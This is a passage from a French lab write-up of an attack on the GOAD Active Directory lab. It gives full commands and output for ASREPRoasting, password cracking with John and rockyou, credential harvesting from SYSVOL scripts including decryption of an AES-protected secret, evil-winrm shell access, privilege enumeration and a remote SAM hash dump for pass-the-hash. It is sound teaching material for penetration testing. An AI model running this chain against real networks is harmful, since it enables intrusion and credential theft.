  [^\]]+     → un ou plusieurs caractères qui ne sont pas ]
  (?=\])     → lookahead : ce qui est avant un ]
  → extrait tout ce qui est entre [ et ]
  → résultat : Guest, arya.stark, 0x1f5, 0x456...

grep -v '0x' → exclut les lignes contenant '0x' (les RIDs hexadécimaux)
  → résultat : seulement les noms d'utilisateurs
```

**Etape 3 — Nettoyage :**
```bash
# Supprime Guest
sed -i '/^Guest$/d' ~/Desktop/GOAD/users_north.txt
# Supprime espaces parasites
sed -i 's/\. /./g' ~/Desktop/GOAD/users_north.txt
sed -i 's/ \././g' ~/Desktop/GOAD/users_north.txt
# Vérification
cat ~/Desktop/GOAD/users_north.txt
```

**Résultat final — users_north.txt :**
```
arya.stark
sansa.stark
brandon.stark
rickon.stark
hodor
jon.snow
samwell.tarly
jeor.mormont
sql_svc
```

**Ce que ça a permis :** 9 usernames propres → utilisables par impacket pour ASREPRoast.

---

### 3.2 ASREPRoast — Récupération hash brandon.stark

**Pourquoi :** L'ASREPRoast exploite une misconfiguration Kerberos. Si un compte a `UF_DONT_REQUIRE_PREAUTH` activé, le DC envoie un TGT chiffré avec le hash du mot de passe du compte sans vérifier qui demande → crackable offline.

**Mécanisme :**
```
Normal (preauth activé) :
  Client → DC : timestamp chiffré avec NTLM_hash(password)
  DC     → vérifie → envoie TGT si OK

ASREPRoast (preauth désactivé) :
  Client → DC : "Je veux un TGT pour brandon.stark" (sans rien prouver)
  DC     → envoie TGT chiffré avec NTLM_hash(password brandon.stark) ← ON RÉCUPÈRE ÇA
  Client → crack offline avec rockyou.txt
```

```bash
impacket-GetNPUsers -request \
-outputfile ~/Desktop/GOAD/hashes.asrep \
-format john \
-usersfile ~/Desktop/GOAD/users_north.txt \
-dc-ip 192.168.56.11 \
north.sevenkingdoms.local/
```

**Options :**
| Option | Rôle |
|--------|------|
| `-request` | Demande le TGT et récupère le hash chiffré |
| `-outputfile ~/Desktop/GOAD/hashes.asrep` | Sauvegarde le hash pour crack offline |
| `-format john` | Format compatible John the Ripper |
| `-usersfile ~/Desktop/GOAD/users_north.txt` | Teste chaque user de la liste |
| `-dc-ip 192.168.56.11` | IP du DC WINTERFELL (sessions RPC anonymes acceptées) |
| `north.sevenkingdoms.local/` | Domaine cible — `/` sans user = requête anonyme |

**Résultat :**
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] User arya.stark    doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sansa.stark   doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL:1e9c3e1d37eb242f7d04a475a1c64196$fac045da...
[-] User rickon.stark  doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User hodor         doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jon.snow      doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User samwell.tarly doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jeor.mormont  doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sql_svc       doesn't have UF_DONT_REQUIRE_PREAUTH set
```

**Hash AS-REP complet — contenu de hashes.asrep :**
```
$krb5asrep$23$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL:1e9c3e1d37eb242f7d04a475a1c64196$fac045da3215ae3cd3318e2d0450c121bc02f833c6b7ed7508e317ae06d7e2aee8539724413795a8d3141d158e56335f88cb5bded65ce226afc345d2a4b48a23122604dc77a7ccdbf927f67297268d11a8b36a608704cd7ad8054dc36f515478f82ec6dc06c8cff512dda1a51817b8ef122c0dab7714cb7d5b536f8f1a8d9e267ef21453c77498c18b6efde8e01604424551ccf27ddf2115c0836b83077673dbbcc860a110a868cc989a11c0936f69b00c06bf4b46109eb6352a405172f2d0f9fd99c4b5ef6a28d2828a3cc3e9b1aaaae0f0e63d24b807030704d4810f8c4586642c8d5f4527f3d5bcb83022c41e23cde10e9cf003a676443d1b164f2e5b8e067d85afaddcd0
```

**Structure du hash :**
```
$krb5asrep$23$             → type AS-REP, etype 23 (RC4-HMAC)
brandon.stark               → seul compte vulnérable (UF_DONT_REQUIRE_PREAUTH activé)
@NORTH.SEVENKINGDOMS.LOCAL  → domaine
:1e9c3e1d37eb...            → données chiffrées avec NTLM_hash(password brandon.stark)
```

**Ce que ça a permis :** Hash AS-REP sauvegardé dans `hashes.asrep` → crack avec John.

---

### 3.3 Crack John — Comment on a obtenu "iseedeadpeople"

**Pourquoi :** Le hash AS-REP est chiffré avec le mot de passe de brandon.stark. John the Ripper lit rockyou.txt mot par mot, recalcule le hash pour chaque mot et tente de déchiffrer le hash AS-REP. Quand la structure Kerberos déchiffrée est valide → mot de passe trouvé.

**rockyou.txt — d'où vient cette wordlist :**
```
rockyou.txt = 14 133 396 vrais mots de passe issus de la fuite de données 
              RockYou.com (2009). Ce sont des mots de passe réels utilisés 
              par de vraies personnes. "iseedeadpeople" y figure car quelqu'un 
              l'avait utilisé avant brandon.stark.
```

**Preuve que "iseedeadpeople" est dans rockyou.txt :**
```bash
grep "iseedeadpeople" /usr/share/wordlists/rockyou.txt
```
```
iseedeadpeople    ← PRÉSENT dans la wordlist
```

**Commande de crack :**
```bash
john ~/Desktop/GOAD/hashes.asrep \
--wordlist=/usr/share/wordlists/rockyou.txt
```

**Options :**
| Option | Rôle |
|--------|------|
| `~/Desktop/GOAD/hashes.asrep` | Fichier contenant le hash AS-REP récupéré à l'étape 3.2 |
| `--wordlist=/usr/share/wordlists/rockyou.txt` | Dictionnaire de 14M mots de passe réels |

**Ce que John fait ligne par ligne :**
```
ENTRÉE : hashes.asrep
$krb5asrep$23$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL:1e9c3e1d37eb242f7d04a475a1c64196$fac045da...

WORDLIST : rockyou.txt lu ligne par ligne
────────────────────────────────────────────────────────────────────
Ligne 1  : "123456"
  → calcule NTLM("123456")     = 32ed87bdb5fdc5e9cba88547376818d4
  → tente déchiffrer hash avec   32ed87bdb5fdc5e9cba88547376818d4
  → résultat = structure invalide → ❌ mauvais mot de passe → ligne suivante

Ligne 2  : "12345"         → ❌
Ligne 3  : "123456789"     → ❌
Ligne 4  : "password"
  → calcule NTLM("password")   = 8846f7eaee8fb117ad06bdd830b7586c
  → tente déchiffrer hash avec   8846f7eaee8fb117ad06bdd830b7586c
  → résultat = structure invalide → ❌ → ligne suivante

... (milliers d'essais) ...

Ligne N  : "iseedeadpeople"
  → calcule NTLM("iseedeadpeople") = 9d5b4e47a95fd1bc7e05dab5bc22df2c
  → tente déchiffrer 1e9c3e1d37eb242f7d04a475a1c64196$fac045da...
    avec NTLM 9d5b4e47a95fd1bc7e05dab5bc22df2c
  → résultat = structure Kerberos AS-REP VALIDE ← ✅ MATCH !
  → John affiche : iseedeadpeople ($krb5asrep$brandon.stark@NORTH...)
────────────────────────────────────────────────────────────────────
CONCLUSION : brandon.stark utilisait "iseedeadpeople" comme mot de passe.
             Ce mot était dans rockyou.txt → cracké en < 1 seconde.
```

**Résultat complet affiché par John :**
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23
[MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

iseedeadpeople   ($krb5asrep$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL)
↑                ↑
MOT DE PASSE     HASH QUI CORRESPOND (brandon.stark)

1g 0:00:00:00 DONE (2026-04-30 08:04) 8.333g/s 452266p/s 452266c/s 452266C/s soydivina..250984
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

**Lecture des stats :**
```
1g             → 1 hash cracké avec succès
0:00:00:00     → moins d'1 seconde
452266p/s      → 452 266 mots testés par seconde
soydivina..250984 → plage des derniers mots testés avant la fin
                   → "iseedeadpeople" était tôt dans rockyou.txt
```

**Confirmation avec --show :**
```bash
john ~/Desktop/GOAD/hashes.asrep --show
```
```
$krb5asrep$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL:iseedeadpeople

1 password hash cracked, 0 left
```

> ✅ **brandon.stark : iseedeadpeople** — obtenu grâce à ASREPRoast (hash) + John + rockyou.txt (crack)

---

## 📂 Phase 2 — Enumération (avec brandon.stark:iseedeadpeople) {#enum}

> **Objectif :** Maintenant qu'on a brandon.stark:iseedeadpeople (obtenu en 3.3), explorer les partages SMB pour trouver d'autres credentials.

---

### 2.1 Validation brandon.stark sur SMB

> ℹ️ **Prérequis :** brandon.stark:iseedeadpeople obtenu en section 3.3 (ASREPRoast + crack John). Sans ce mot de passe, cette commande est impossible.

**Pourquoi :** Avant d'explorer les shares, on vérifie que brandon.stark est valide sur les machines du domaine et sur quel domaine il appartient.

```bash
netexec smb 192.168.56.11 -u brandon.stark -p iseedeadpeople
```

**Résultat :**
```
SMB  192.168.56.11  445  WINTERFELL  [*] Windows 10/Server 2019 Build 17763 x64
                                      (name:WINTERFELL)(domain:north.sevenkingdoms.local)
                                      (signing:True)(SMBv1:False)
SMB  192.168.56.11  445  WINTERFELL  [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
```

**Ce que ça a permis :** brandon.stark valide sur WINTERFELL (domaine north) → accès aux shares.

---

### 2.2 Enum SMB Shares avec brandon.stark

**Pourquoi :** Lister tous les partages SMB accessibles avec brandon.stark — on cherche SYSVOL et NETLOGON qui contiennent les GPOs et scripts de logon du domaine.

```bash
netexec smb 192.168.56.10 192.168.56.11 192.168.56.22 \
-u brandon.stark -p iseedeadpeople --shares
```

**Résultat :**
```
SMB  192.168.56.11  445  WINTERFELL   [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB  192.168.56.11  445  WINTERFELL   [*] Enumerated shares
SMB  192.168.56.11  445  WINTERFELL   Share       Permissions  Remark
SMB  192.168.56.11  445  WINTERFELL   ADMIN$                   Remote Admin
SMB  192.168.56.11  445  WINTERFELL   C$                       Default share
SMB  192.168.56.11  445  WINTERFELL   IPC$        READ         Remote IPC
SMB  192.168.56.11  445  WINTERFELL   NETLOGON    READ         Logon server share
SMB  192.168.56.11  445  WINTERFELL   SYSVOL      READ         Logon server share ← PRIORITAIRE

SMB  192.168.56.10  445  KINGSLANDING [-] sevenkingdoms.local\brandon.stark:iseedeadpeople
                                       STATUS_LOGON_FAILURE
                                       (brandon.stark appartient à north, pas sevenkingdoms)

SMB  192.168.56.22  445  CASTELBLACK  [-] Connection Error: NETBIOS timeout
```

**Ce que ça a permis :** Accès en lecture à SYSVOL et NETLOGON sur WINTERFELL → scripts de logon potentiellement sensibles.

---

### 2.3 SYSVOL Listing récursif

**Pourquoi :** SYSVOL contient les GPOs et scripts de logon du domaine. Les administrateurs y stockent souvent des credentials en clair pour automatiser des tâches (scripts de déploiement, mappage de lecteurs réseau, etc.). C'est une des premières choses à explorer après avoir accès à SYSVOL.

```bash
smbclient //192.168.56.11/SYSVOL \
-U "north.sevenkingdoms.local/brandon.stark%iseedeadpeople" \
-c "recurse ON; ls"
```

**Options :**
| Option | Rôle |
|--------|------|
| `//192.168.56.11/SYSVOL` | Accès au share SYSVOL sur WINTERFELL |
| `-U "domain/user%pass"` | Authentification avec domaine/user%password |
| `-c "recurse ON; ls"` | Commande : activer récursion puis lister tout |

**Résultat complet :**
```
  .                                   D  0  Wed Apr 29 19:28:57 2026
  ..                                  D  0  Wed Apr 29 19:28:57 2026
  north.sevenkingdoms.local           D  0  Wed Apr 29 19:28:57 2026

\north.sevenkingdoms.local
  DfsrPrivate        → NT_STATUS_ACCESS_DENIED
  Policies/
  scripts/
    script.ps1    (165 bytes)  Wed Apr 29 20:08:42 2026  ← SUSPECT
    secret.ps1    (869 bytes)  Wed Apr 29 20:08:45 2026  ← TRÈS SUSPECT

\north.sevenkingdoms.local\Policies
  {31B2F340-016D-11D2-945F-00C04FB984F9}/
    GPT.INI (22 bytes)
    MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (1192 bytes)
  {6AC1786C-016F-11D2-945F-00C04fB984F9}/
    GPT.INI (22 bytes)
    MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (3764 bytes)
  {8270AEB4-5437-4F26-9FC5-ECF4C6052C24}/
    GPO.cmt (32 bytes)
    GPT.INI (64 bytes)
    Machine/Registry.pol (200 bytes)
    User/Registry.pol (202 bytes)
```

**Ce que ça a permis :** Deux fichiers PowerShell suspects dans le dossier `scripts` → téléchargement immédiat.

---

### 2.4 Récupération et lecture des scripts SYSVOL

**Pourquoi :** Les scripts .ps1 dans SYSVOL/scripts sont des scripts de logon exécutés automatiquement par les machines du domaine. Pour fonctionner sans intervention humaine, ils contiennent souvent des credentials en dur.

```bash
smbclient //192.168.56.11/SYSVOL \
-U "north.sevenkingdoms.local/brandon.stark%iseedeadpeople" \
-c "get north.sevenkingdoms.local\scripts\script.ps1; \
    get north.sevenkingdoms.local\scripts\secret.ps1"
```

**Résultat :**
```
getting file \north.sevenkingdoms.local\scripts\script.ps1
  of size 165 (2.8 KiloBytes/sec)
getting file \north.sevenkingdoms.local\scripts\secret.ps1
  of size 869 (13.9 KiloBytes/sec)
```

**Lecture script.ps1 :**
```bash
cat 'north.sevenkingdoms.local\scripts\script.ps1'
```

**Contenu script.ps1 (165 bytes) :**
```powershell
# fake script in netlogon with creds
$task = '/c TODO'
$taskName = "fake task"
$user = "NORTH\jeor.mormont"
$password = "_L0ngCl@w_"
# passwords in sysvol still ...
```

**Comment on obtient `_L0ngCl@w_` :**
```
Le mot de passe est écrit EN CLAIR dans le script PowerShell.
Pas de déchiffrement, pas de crack — on lit directement :
  $password = "_L0ngCl@w_"
               ↑
          C'est le mot de passe de jeor.mormont, visible directement dans le fichier.

C'est une mauvaise pratique d'administration très courante :
un admin a écrit un script de logon automatisé et a mis le mot de passe
en clair dans le script plutôt que de le chiffrer.
```

> 🔴 **jeor.mormont : _L0ngCl@w_** — obtenu en lisant simplement la variable `$password` dans script.ps1

---

**Lecture secret.ps1 :**
```bash
cat 'north.sevenkingdoms.local\scripts\secret.ps1'
```

**Contenu secret.ps1 (869 bytes) :**
```powershell
# cypher script
# $domain="sevenkingdoms.local"
# $EncryptionKeyBytes = New-Object Byte[] 32
# [Security.Cryptography.RNGCryptoServiceProvider]::Create().GetBytes($EncryptionKeyBytes)
# $EncryptionKeyBytes | Out-File "encryption.key"
# $EncryptionKeyData = Get-Content "encryption.key"
# Read-Host -AsSecureString | ConvertFrom-SecureString -Key $EncryptionKeyData | Out-File -FilePath "secret.encrypted"
# secret stored :
$keyData = 177,252,228,64,28,91,12,201,20,91,21,139,255,65,9,247,41,55,164,28,75,132,143,71,62,191,211,61,154,61,216,91
$secret="76492d1116743f0423413b16050a5345MgB8AGkAcwBDACsAUwArADIAcABRAEcARABnAGYAMwA3AEEAcgBFAEIAYQB2AEEAPQA9AHwAZQAwADgANAA2ADQAMABiADYANAAwADYANgA1ADcANgAxAGIAMQBhAGQANQBlAGYAYQBiADQAYQA2ADkAZgBlAGQAMQAzADAANQAyADUAMgAyADYANAA3ADAAZABiAGEAOAA0AGUAOQBkAGMAZABmAGEANAAyADkAZgAyADIAMwA="
# T.L.
```

**Ce que contient secret.ps1 — analyse :**
```
$keyData  = clé AES-256 (32 bytes) stockée en clair dans le script
            → 177,252,228,64,28,91,12,201... (32 valeurs = 32 bytes = 256 bits)

$secret   = secret chiffré avec PowerShell ConvertFrom-SecureString + cette clé AES
            → "76492d1116743f04..." (base64 encodé)

⚠️ ATTENTION : secret.ps1 ≠ script.ps1
   script.ps1 → _L0ngCl@w_ en CLAIR (déjà exploité)
   secret.ps1 → secret chiffré AES, contenu INCONNU pour l'instant
```

**Comment déchiffrer secret.ps1 :**

La clé AES est intégrée dans le fichier (`$keyData`). PowerShell peut déchiffrer directement avec `ConvertTo-SecureString` :

```powershell
# Dans le shell evil-winrm sur CASTELBLACK
$keyData = 177,252,228,64,28,91,12,201,20,91,21,139,255,65,9,247,41,55,164,28,75,132,143,71,62,191,211,61,154,61,216,91
$secret  = "76492d1116743f0423413b16050a5345MgB8AGkAcwBDACsAUwArADIAcABRAEcARABnAGYAMwA3AEEAcgBFAEIAYQB2AEEAPQA9AHwAZQAwADgANAA2ADQAMABiADYANAAwADYANgA1ADcANgAxAGIAMQBhAGQANQBlAGYAYQBiADQAYQA2ADkAZgBlAGQAMQAzADAANQAyADUAMgAyADYANAA3ADAAZABiAGEAOAA0AGUAOQBkAGMAZABmAGEANAAyADkAZgAyADIAMwA="

# Déchiffrer avec la clé AES intégrée
$secureString = $secret | ConvertTo-SecureString -Key $keyData

# Extraire le mot de passe en clair
$cred = New-Object PSCredential("user", $secureString)
$plaintext = $cred.GetNetworkCredential().Password
Write-Host "Secret déchiffré : $plaintext"
```

**Mécanisme :**
```
$secret (base64)
    → ConvertTo-SecureString -Key $keyData
    → déchiffrement AES-256 avec les 32 bytes de $keyData
    → SecureString (objet PowerShell chiffré en mémoire)
    → GetNetworkCredential().Password
    → mot de passe en clair
```

> 📝 **TODO :** Lancer ce déchiffrement dans evil-winrm pour révéler le contenu de `secret.ps1` — probablement un credential supplémentaire du domaine sevenkingdoms.local (initiales "T.L." dans le commentaire).

**Ce que ça a permis :**
- `script.ps1` → **jeor.mormont : _L0ngCl@w_** lu directement en clair → Pwn3d! CASTELBLACK
- `secret.ps1` → secret AES à déchiffrer → credential potentiel inconnu (TODO)

---

## 💥 Phase 3 suite — Exploitation : jeor.mormont → Shell {#exploit-suite}

> **Objectif :** Avec jeor.mormont:_L0ngCl@w_ trouvé dans SYSVOL (section 2.4), valider les credentials et obtenir un shell.

---

### 3.4 Credentials en clair dans SYSVOL — jeor.mormont

> ℹ️ Détails complets en section 2.4.

**Résumé :** `script.ps1` dans `SYSVOL\north.sevenkingdoms.local\scripts\` contenait en clair :
```powershell
$user = "NORTH\jeor.mormont"
$password = "_L0ngCl@w_"
```

> ✅ **jeor.mormont : _L0ngCl@w_** — trouvé en clair dans SYSVOL WINTERFELL

---

### 3.5 Validation creds jeor.mormont (SMB + WinRM)

**Pourquoi :** Vérifier sur quelles machines jeor.mormont est valide et s'il est admin local — `(Pwn3d!)` dans netexec signifie admin local confirmé, ce qui ouvre toutes les options post-exploit.

**SMB :**
```bash
netexec smb 192.168.56.10 192.168.56.11 192.168.56.22 \
-u jeor.mormont -p '_L0ngCl@w_'
```

**Résultat :**
```
SMB  192.168.56.22  445  CASTELBLACK  [*] Windows 10/Server 2019 Build 17763 x64
SMB  192.168.56.22  445  CASTELBLACK  [+] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_ (Pwn3d!)
                                                                                              ↑ ADMIN LOCAL

SMB  192.168.56.11  445  WINTERFELL   [*] Windows 10/Server 2019 Build 17763 x64
SMB  192.168.56.11  445  WINTERFELL   [+] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_
                                                                                  (valide, pas admin)

SMB  192.168.56.10  445  KINGSLANDING [*] Windows 10/Server 2019 Build 17763 x64
SMB  192.168.56.10  445  KINGSLANDING [-] sevenkingdoms.local\jeor.mormont:_L0ngCl@w_
                                       STATUS_LOGON_FAILURE (domaine différent)
```

**WinRM :**
```bash
netexec winrm 192.168.56.11 192.168.56.22 \
-u jeor.mormont -p '_L0ngCl@w_'
```

**Résultat :**
```
WINRM  192.168.56.22  5985  CASTELBLACK  [*] Windows 10/Server 2019 Build 17763
WINRM  192.168.56.22  5985  CASTELBLACK  [+] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_ (Pwn3d!)
                                                                                                 ↑ SHELL POSSIBLE

WINRM  192.168.56.11  5985  WINTERFELL   [*] Windows 10/Server 2019 Build 17763
WINRM  192.168.56.11  5985  WINTERFELL   [-] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_
```

**Ce que ça a permis :**
- jeor.mormont = **admin local CASTELBLACK** (Pwn3d! SMB + WinRM)
- jeor.mormont valide sur WINTERFELL mais pas admin
- jeor.mormont invalide sur KINGSLANDING (domaine sevenkingdoms ≠ north)

---

### 3.6 Shell evil-winrm CASTELBLACK

**Pourquoi :** WinRM (Windows Remote Management, port 5985) permet un shell PowerShell distant. evil-winrm est l'outil pentest dédié — plus pratique que PSRemoting car il offre upload/download de fichiers, exécution de scripts, etc.

```bash
evil-winrm -i 192.168.56.22 -u jeor.mormont -p '_L0ngCl@w_'
```

**Options :**
| Option | Rôle |
|--------|------|
| `-i 192.168.56.22` | IP cible (CASTELBLACK) |
| `-u jeor.mormont` | Nom d'utilisateur |
| `-p '_L0ngCl@w_'` | Mot de passe |

**Résultat :**
```
Evil-WinRM shell v3.9
Warning: Remote path completions is disabled due to ruby limitation
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\jeor.mormont\Documents> whoami
north\jeor.mormont

*Evil-WinRM* PS C:\Users\jeor.mormont\Documents> ipconfig
Ethernet adapter Ethernet 2:
   IPv4 Address : 192.168.56.22    ← réseau lab
Ethernet adapter Ethernet:
   DNS Suffix   : openstacklocal
   IPv4 Address : 10.0.2.15        ← RÉSEAU CACHÉ
```

> ✅ **Shell PowerShell interactif NORTH\jeor.mormont sur CASTELBLACK**

**Ce que ça a permis :** Accès interactif à CASTELBLACK → début post-exploitation. Découverte immédiate d'un **2ème réseau 10.0.2.0/24** (dual-homed).

---

## 🔓 Phase 4 — Post-Exploitation CASTELBLACK {#post-exploit}

> **Objectif :** Maximiser l'accès — collecter tous les credentials, élever les privilèges vers SYSTEM, identifier les pivots possibles.

---

### 4.1 Enumération privilèges (whoami /priv)

**Pourquoi :** `whoami /priv` liste tous les privilèges Windows du token de l'utilisateur courant. Certains privilèges permettent des élévations même sans être admin. C'est la première commande à lancer après avoir un shell.

```powershell
whoami /priv
```

**Résultat :**
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled  ← ACL abuse
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled  ← dump SAM/SYSTEM
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled  ← dump LSASS
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                 Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled  ← POTATO → SYSTEM
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

**Privilèges critiques identifiés :**

| Privilège | Usage offensif |
|-----------|---------------|
| **SeImpersonatePrivilege** | GodPotato → SYSTEM (usurpation token) |
| **SeDebugPrivilege** | Dump LSASS → hashes en mémoire |
| **SeBackupPrivilege** | Lire SAM/SYSTEM/SECURITY hives |
| **SeTakeOwnershipPrivilege** | S'approprier n'importe quel objet |

**Ce que ça a permis :** SeImpersonatePrivilege → GodPotato → SYSTEM identifié comme vecteur principal.

---

### 4.2 Enumération users et admins locaux

**Pourquoi :** Comprendre qui a accès à la machine, trouver d'autres comptes à exploiter, confirmer notre niveau de privilège.

```powershell
net user
```

**Résultat :**
```
User accounts for \\CASTELBLACK
Administrator    DefaultAccount    Guest
vagrant          WDAGUtilityAccount
```

```powershell
net localgroup administrators
```

**Résultat :**
```
Alias name     administrators
Members
Administrator
NORTH\Domain Admins
NORTH\jeor.mormont  ← nous
vagrant
```

**Ce que ça a permis :** Confirmer jeor.mormont admin local. vagrant présent → compte lab.

---

### 4.3 Exploration filesystem

**Pourquoi :** Chercher des fichiers sensibles — notes, scripts, clés, configs. Les dossiers des utilisateurs sont prioritaires.

**Etape 1 — Liste des users sur la machine :**
```powershell
ls C:\Users\
```

**Résultat :**
```
Directory: C:\Users

Mode    LastWriteTime      Length Name
----    -------------      ------ ----
d----- 4/29/2026  4:56 PM        .NET v2.0
d----- 4/29/2026  4:56 PM        .NET v4.5
d----- 4/29/2026  4:56 PM        Classic .NET AppPool
d----- 4/29/2026  4:56 PM        jeor.mormont     ← nous
d-r--- 5/11/2021  9:39 PM        Public
d----- 4/30/2026  1:20 AM        robb.stark        ← USER DOMAINE NORTH
d----- 4/30/2026  1:07 AM        sql_svc           ← COMPTE SERVICE MSSQL
d----- 5/11/2021 10:00 PM        vagrant
```

**Etape 2 — Recherche fichier osint.txt (vu dans l'output ls) :**

```powershell
# Chercher osint.txt dans C:\Users\
Get-ChildItem C:\Users\ -Recurse -Filter "osint.txt" 2>$null
```

**Résultat :**
```
(aucun résultat) → osint.txt était un artefact d'affichage du terminal, pas un vrai fichier
```

```powershell
# Vérification directe dans Documents
cat C:\Users\jeor.mormont\Documents\osint.txt
```

**Résultat :**
```
Cannot find path 'C:\Users\jeor.mormont\Documents\osint.txt' because it does not exist.
```

**Etape 3 — Explorer les autres profils :**
```powershell
ls C:\Users\robb.stark\Desktop\ 2>$null
ls C:\Users\robb.stark\Documents\ 2>$null
ls C:\Users\sql_svc\Desktop\ 2>$null
ls C:\Users\sql_svc\Documents\ 2>$null
```

**Résultat :** Tous les dossiers vides — pas de fichiers intéressants dans les profils.

**Ce que ça a permis :**
- osint.txt = artefact d'affichage, n'existe pas
- robb.stark s'est connecté récemment (timestamp 4/30/2026 1:20 AM) → credentials en cache DCC2 dans LSA
- sql_svc présent → compte service MSSQL local → password stocké dans LSA

---

### 4.4 Découverte réseau dual-homed

**Pourquoi :** `ipconfig` révèle toutes les interfaces réseau. Une machine avec 2 interfaces peut servir de pivot vers un réseau inaccessible directement depuis Kali — c'est un finding critique pour le lateral movement.

```powershell
ipconfig
```

**Résultat :**
```
Windows IP Configuration

Ethernet adapter Ethernet 2:
   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address         . : fe80::c059:9a03:ba65:98fa%6
   IPv4 Address                    . : 192.168.56.22    ← réseau lab (visible depuis Kali)
   Subnet Mask                     . : 255.255.255.0
   Default Gateway                 . : (vide)

Ethernet adapter Ethernet:
   Connection-specific DNS Suffix  . : openstacklocal   ← INDICE : déploiement OpenStack
   Link-local IPv6 Address         . : fe80::a449:e1d9:60ad:f1cb%7
   IPv4 Address                    . : 10.0.2.15        ← RÉSEAU CACHÉ
   Subnet Mask                     . : 255.255.255.0
   Default Gateway                 . : 10.0.2.2
```

> 🔴 **CASTELBLACK est dual-homed !**
> - `192.168.56.0/24` = réseau lab visible depuis Kali
> - `10.0.2.0/24` = réseau interne OpenStack **inaccessible directement depuis Kali**
> - Suffixe DNS `openstacklocal` → infrastructure de virtualisation cloud
> - CASTELBLACK = **pivot potentiel** vers réseau caché (chisel/ligolo-ng TODO)

---

### 4.5 Dump SAM (hashes locaux)

**Pourquoi :** La base SAM (Security Account Manager) contient les hashes NTLM de tous les comptes locaux Windows. Avec admin local (Pwn3d!), netexec peut la dumper à distance sans aucun outil sur la cible. Ces hashes permettent des attaques **Pass-the-Hash** — se connecter en présentant le hash directement sans connaître le mot de passe en clair.

```bash
netexec smb 192.168.56.22 -u jeor.mormont -p '_L0ngCl@w_' --sam
```

**Résultat complet :**
```
SMB  192.168.56.22  445  CASTELBLACK  [*] Windows 10/Server 2019 Build 17763 x64
                                       (name:CASTELBLACK)(domain:north.sevenkingdoms.local)
                                       (signing:False)(SMBv1:False)
SMB  192.168.56.22  445  CASTELBLACK  [+] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_ (Pwn3d!)
SMB  192.168.56.22  445  CASTELBLACK  [*] Dumping SAM hashes
SMB  192.168.56.22  445  CASTELBLACK  Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
SMB  192.168.56.22  445  CASTELBLACK  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB  192.168.56.22  445  CASTELBLACK  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB  192.168.56.22  445  CASTELBLACK  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4363b6dc0c95588964884d7e1dfea1f7:::
SMB  192.168.56.22  445  CASTELBLACK  vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
SMB  192.168.56.22  445  CASTELBLACK  [+] Added 5 SAM hashes to the database
```

**Format des hashes SAM :**
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
      ↑          ↑         ↑                               ↑
  Username      RID    LM hash (vide/désactivé)        NTLM hash ← celui qu'on utilise
```

**Hashes NTLM récupérés :**
| Compte | Hash NTLM | Usage |
|--------|-----------|-------|
| Administrator | `dbd13e1c4e338284ac4e9874f7de6ef4` | Pass-the-Hash |
